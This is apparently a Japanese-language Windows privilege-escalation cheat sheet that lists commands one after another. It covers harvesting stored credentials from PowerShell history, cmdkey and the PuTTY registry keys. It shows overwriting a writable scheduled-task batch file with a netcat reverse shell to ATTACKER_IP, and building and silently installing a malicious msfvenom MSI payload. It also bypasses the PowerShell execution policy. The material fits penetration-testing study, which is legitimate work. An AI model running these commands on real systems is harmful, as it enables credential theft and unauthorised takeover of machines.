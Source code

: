 ```
### PowerShellのログを確認する  

``` type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt ```  
<br>※また、PowerShellで実行する場合には%userprofile%を$Env:userprofileに変更する必要がある  

### うまくexploitが刺さらない場合
32bit環境なのか64bit環境なのかを確認して、
その実行しているエクスプロイトがどっちのbitに対応しているのかを確認すること
```
C:\ > [Environment]::Is64BitProcess
trueかfalseで返事が返ってくる
```
詳しくは以下のリンクのExploit項目を読むこと  
https://zenn.dev/sosawa/articles/6b55ab223c5972


  ### Windows内に保存されているクレデンシャル情報を確認する  
  ```cmdkey /list```
実際のパスワードを見ることはできませんが、試す価値のある認証情報があれば、以下のようにrunasコマンドと/savecredオプションで使用することが可能
```runas /savecred /user:admin cmd.exe```


### Puttyに保存されている平文の認証情報を含むプロキシパスワードを確認する
```reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s```


### スケジュールタスクを調べて書き換え可能なバイナリがないかを調べる
``` schtasks /query /tn vulntask /fo list /v```
##### また、出力結果内で重要となってくるのが"Task to Run"と"Run As User"という項目で<br>もし、現在のユーザーが "Task to Run "実行ファイルを変更または上書きすることができれば<br>taskusr1ユーザーによって実行されるものを制御することができ、結果として単純な特権の昇格を実現することができる。
``` 
C:\> icacls c:\tasks\schtask.bat
c:\tasks\schtask.bat NT AUTHORITY\SYSTEM:(I)(F)
                    BUILTIN\Administrators:(I)(F)
                    BUILTIN\Users:(I)(F)
```

##### (I)と(F)は権限のことで、(F)はフルアクセスを指している。
つまり今回の例だとこのバッチファイルをリバールシェルに書き換えればrootになれる  
以下はバッチをリバースシェルに書き換える例  
``` C:\> echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat ```



### msiファイルを利用して権限昇格する
msiでは任意のユーザーアカウント（非特権ユーザーも含む）から、より高い特権で実行されるように設定することができる。  
これにより、管理者権限で実行される悪意のあるMSIファイルを生成することができるが、それには以下の2うのレジストリ値を設定する必要がある。
```
C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```
以下はmsfvenomでmsi形式のリバースシェルを生成する例
```msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_MACHINE_IP LPORT=LOCAL_PORT -f msi -o malicious.msi```
<br>生成したファイルをターゲットPCに送り込んで実行する例
```C:\> msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi```


## 自動列挙ツール

```
PrivescCheck は、ターゲット システムで一般的な権限昇格を検索するPowerShellスクリプト
PS C:\> Set-ExecutionPolicy Bypass -Scope process -Force
PS C:\> . .\PrivescCheck.ps1
PS C:\> Invoke-PrivescCheck
